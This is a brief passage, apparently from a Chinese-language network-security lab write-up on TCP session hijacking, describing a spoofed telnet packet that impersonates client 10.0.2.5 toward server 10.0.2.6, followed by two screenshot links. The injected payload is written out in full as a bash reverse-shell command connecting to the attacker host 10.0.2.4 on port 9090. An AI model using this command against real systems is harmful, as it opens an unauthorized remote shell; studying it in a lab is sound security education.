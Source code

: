 攻击者伪造的数据包：冒充客户端（10.0.2.5） 发送telnet数据到sever（10.0.2.6），数据

内容是”/bin/bash -i > /dev/tcp/10.0.2.4/9090 0<&1 2>&1”

![image-20240107214843510](image-20240107214843510.png)

![image-20240107214853298](image-20240107214853298.png)
